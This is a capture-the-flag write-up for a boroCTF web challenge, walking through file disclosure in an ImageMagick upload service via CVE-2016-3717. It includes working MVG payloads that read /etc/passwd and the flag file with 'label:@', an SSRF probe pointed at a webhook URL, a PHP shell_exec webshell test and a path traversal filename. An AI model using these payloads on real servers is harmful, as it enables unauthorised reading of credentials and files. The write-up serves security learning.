








# Kobeni's Dashboard - boroCTF

> *Kobeni's been tasked with cataloging devil sighting evidence through Public Safety's new imaging system, but rumor has it that contract information between the Chainsaw Devil & Denji are buried somewhere in the classified archive. Report back your findings.*

**Difficulty:** Medium  
**Category:** Web Exploitation  
**Attack Chain:** `Information Disclosure` → `Local File Inclusion (CVE-2016-3717)`

---

## What Was Vulnerable

The application used ImageMagick to process uploaded image files. Uploaded files were not validated by content but only loosely by extension/Content-Type on the client side - allowing a crafted MVG (Magick Vector Graphics) file to be processed as an image. This exposed **CVE-2016-3717**, in which ImageMagick's `label:@` pseudo-protocol - intended to render text content as an image label which can be abused to read and render the contents of arbitrary local files on the server.

---

## How I Found It

### 1. Reconnaissance

On visiting the website:



There is a file upload form - *"Evidence File. Accepted formats: JPG, PNG, GIF, BMP."*

Uploading a normal image took me to an `/upload` endpoint displaying a report status:

```
Status: Processed
Report Submitted
Imaging complete - archived to database

[The Uploaded Image here]
STATUS     ACCEPTED
PIPELINE   IMAGING / THUMB GENERATION
RESULT     OK
```

The processed image was returned, with a "Submit another report" button.

### 2. Investigating with Burp Repeater

Clicking upload sends a `POST /upload` multipart request:

```
------WebKitFormBoundaryFn6JE49yegvyAktQ
Content-Disposition: form-data; name="file"; filename=""
Content-Type: application/octet-stream

------WebKitFormBoundaryFn6JE49yegvyAktQ--
```

Sending this with no file returns `400 Bad Request`.

A normal image upload:

```
------WebKitFormBoundarymPRY5xRgBi7zTBLx
Content-Disposition: form-data; name="file"; filename="xyz.jpg"
Content-Type: image/jpeg

ÿØÿà...
------WebKitFormBoundarymPRY5xRgBi7zTBLx--
```

Returns `200 OK`. The page source contained JavaScript that, on inspection, was just a Cloudflare browser-verification bootstrap loader - not relevant to the vulnerability.

### 3. Testing

`/reports` returned `404 Not Found`. `/robots.txt` contained a content-signal policy notice (AI training/search permissions) - interesting but not useful for capturing the flag.

I sent a basic path traversal payload as the filename:

```
Content-Disposition: form-data; name="file"; filename="../../"
Content-Type: image/jpeg
```

This returned `500 Internal Server Error` - meaning the server was actively processing the filename rather than ignoring it, which suggested the filename/file content reaches some processing logic worth investigating further.

Visiting `/upload` directly via GET returned `405 Method Not Allowed`.

I then tested whether the upload accepted arbitrary file types by uploading a PHP file:

```php
<?php echo "Vulnerability Confirmed: " . shell_exec('whoami'); ?>
```

The file uploaded successfully (no extension filtering), but visiting `/upload/test.php` returned `404 Not Found` - the upload directory wasn't directly browsable at that path, so a simple webshell wasn't viable here.

---

## The Exploit

### Step 1 - Information Disclosure

The main page's source contained a comment:



```html
<!-- Processor: see response headers -->
```

Checking the response headers on the upload request revealed:



```
X-Processor: ImageMagick/unknown
```

**What does this mean?**

| Component | Meaning |
|---|---|
| `X-Processor` | A non-standard custom header identifying the internal processing component that handled the request |
| `ImageMagick` | A widely used image manipulation library and command-line tool |
| `/unknown` | The specific version could not be determined from the header alone |

### Step 2 - Researching ImageMagick Attack Surface

ImageMagick has a well-documented history of vulnerabilities from processing untrusted input, broadly referred to as **ImageTragick** (imagetragick.com). Among these, **CVE-2016-3717** (independently reported by researcher Stewie) documents exactly this technique - using the `label:@` pseudo-protocol to read local file contents:

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/etc/passwd'
pop graphic-context
```

I tested SSRF first before confirming this path.

**Attempt 1 - Outbound connection (SSRF) test:**

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'https://webhook.site/my-unique-urlcode'
pop graphic-context
```

Saved as `exploit.png`. No request was received on the webhook listener - outbound connections from the server appear to be blocked or this particular vector isn't viable here. This is still a useful result: it confirmed the file was at least syntactically being parsed by ImageMagick's MVG interpreter (no immediate error), and ruled out SSRF as the path forward.

**What is MVG?** Magick Vector Graphics is ImageMagick's own scripting/vector format - commands like `push graphic-context`, `viewbox`, `image`, and `pop graphic-context` are MVG directives, not standard image data.

### Step 3 - Local File Disclosure

I renamed the file to `exploit.mvg` and set `Content-Type: image/png`:

```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 '/etc/passwd'
pop graphic-context
```

This returned the processed image as a base64-encoded PNG embedded inline in the HTML response - confirming ImageMagick was processing the MVG file. Decoding the base64 in CyberChef (`From Base64` → `Render Image`) produced a blank white image - the file path was being referenced as an *image source* rather than read as text, so nothing visible was rendered.

I added a `label:@` prefix to force text rendering instead:





Decoding the resulting base64 PNG in CyberChef:



```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
...
appuser:x:1000:1000::/home/appuser:/bin/bash
```

**Why did `label:@` work?** The `label:@` pseudo-protocol tells ImageMagick to read the target file's contents as plain text and render that text visually as a label/image, rather than trying to interpret the file as image data. Since the server passed the file path straight to ImageMagick without restricting which protocols or local paths could be referenced, this became a Local File Inclusion primitive.

### Step 4 - Capturing the Flag

With local file read confirmed, I targeted the flag directly:



```
push graphic-context
viewbox 0 0 640 480
image over 0,0 0,0 'label:@/flag.txt'
pop graphic-context
```

Decoding the response in CyberChef:



```
boroCTF{I'v3_n3v3r_been_T0_sch00l_3ithEr}
```

This exploit also worked when `Content-Type` was set to `image/jpeg` instead of `image/png` - confirming the server trusted the declared Content-Type rather than validating actual file contents.

---

## Techniques Used

1. Reconnaissance of page source comments and HTTP response headers
2. Identifying ImageMagick as the image processing backend via a leaked custom header
3. Testing for SSRF via MVG `image over` URL handler (ruled out - outbound blocked)
4. Local File Inclusion via the ImageMagick `label:@` pseudo-protocol
5. Base64 decoding and image rendering in CyberChef to extract exfiltrated text content

---

## Real World Impact

An application that passes user-uploaded files directly to ImageMagick without validating actual file content (only checking Content-Type or extension) can allow an attacker to read arbitrary files from the server's filesystem - configuration files, credentials, source code, or other sensitive data without ever needing valid image data or authentication.

---

## Lessons Learned

1. Response headers can leak internal implementation details (like `X-Processor`) that immediately narrow the attack surface
2. Content-Type is client-declared and should never be trusted as a substitute for actual file content validation
3. A failed exploitation attempt (the SSRF test) is still useful - it confirmed the file was being parsed and ruled out one vector, narrowing the search
4. ImageMagick's `label:@` pseudo-protocol (CVE-2016-3717) is a known, documented file disclosure vector - recognizable once the processing library is identified
5. Always take time to research an unfamiliar technology stack before assuming a dead end - the `X-Processor` header was the single clue that unlocked the entire chain

---

*Written by [Faisal Ulde](https://github.com/faisalulde) | boroCTF 2026*